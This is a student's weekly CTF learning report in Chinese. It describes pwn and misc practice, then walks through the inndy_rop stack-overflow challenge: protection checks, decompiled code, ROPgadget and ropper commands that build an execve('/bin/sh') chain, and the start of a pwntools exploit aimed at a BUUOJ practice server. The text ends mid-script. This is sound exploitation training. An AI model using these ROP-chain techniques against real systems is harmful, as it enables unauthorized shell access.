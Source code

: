 # 葛宝琦学习报告04

## 一周的总结

星期五因为疫情加重的原因，偷懒了一天。这一周主要是pwn，还做了几个misc(好久没做了)。pwn主要是在做题和出题，在出ret2text时候编译32位出现了问题，上网搜了搜是Ubuntu20默认的环境没有安装32位的，折腾了大半天才配置好(服务器上也有这个问题。。)这两天想弄一个ret2shellcode但是好像出题的思路有点问题(.bss段打不到)。misc碰到的题目是流量分析、LSB。



## pwn

### inndy_rop

检查保护

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091212770.png" alt="image-20220406073602585" style="zoom:80%;" />

32位，开启NX保护

ida打开

反汇编到主函数看看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  overflow();
  return 0;
}
```

调用overflow函数

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091212744.png" alt="image-20220406074757426" style="zoom:80%;" />

明显存在栈溢出，题目提示是rop构造，尝试使用一把梭看看

```bash
ROPgadget --binary rop --ropchain
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091212593.png" alt="image-20220406075021761" style="zoom:80%;" />

咦，成功了，再试试ropper工具看看行不行

```bash
ropper -f rop --chain "execve cmd=/bin/sh"
```

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091212530.png" alt="image-20220406075232992" style="zoom:80%;" />

嗯，也可以的，这个短一点

exp

```
from pwn import*
from struct import pack

context(os='linux',arch='i386',log_level='debug')
io=remote('node4.buuoj.cn',26290)
#io=process('./rop')

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # 487729c3b55aaec43deb2af4c896b16f9dbd01f7e484054d1bb7f24209e2d3ae
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

```